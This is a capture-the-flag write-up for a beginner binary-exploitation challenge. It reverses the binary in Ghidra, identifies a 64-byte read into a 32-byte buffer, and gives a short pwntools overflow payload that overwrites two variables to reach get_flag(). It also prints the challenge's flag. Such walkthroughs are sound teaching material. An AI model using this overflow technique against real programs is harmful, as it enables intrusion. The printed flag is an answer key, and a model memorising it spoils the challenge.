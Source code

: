 #Challenge Description

This challenge is designed to introduce you to the world of binary exploitation (pwn).
You only need a basic understanding of data structures.
Author: YasseX

#🔎 Step 1: Reversing the Binary with Ghidra

The first thing we did was open the binary in Ghidra, a popular reverse engineering tool.
After decompiling the main function, we obtained the following code:

![ghidra](../assets/babypwn.png)

Let's walk through it:

    A buffer of size 32 (char buffer[32];) is declared.

    Two integers, x and y, are also declared.

    The program reads 0x40 bytes (64 bytes) from user input into the 32-byte buffer.

    It prints some messages with pauses (sleep).

    Then, it checks if x == 0xdeadbeef and y == 0xbadc0de.

    If both conditions are true, it calls get_flag(), otherwise it prints a "Hardluck" message.


#⚡ Step 2: Identifying the Vulnerability

Here, we clearly notice a buffer overflow vulnerability:

    The program reads 64 bytes into a 32-byte buffer without bounds checking.

    As a result, we can overflow the buffer and overwrite the memory areas after it — specifically the variables x and y!

#step 3: writing exploit and get the flag

from pwn import *

context.binary = 'chall'

io = process()
#io = remote("ensafacademia.ddns.net", 9999)

payload = b'Y' * 32 + p32(0xdeadbeef) + p32(0x0badc0de)

io.sendline(payload)

io.interactive()

![exploit](../assets/pic3.png)

#final flag : SECOPS{d4t4_s7ructur_w1th_0v3rl0w!!}
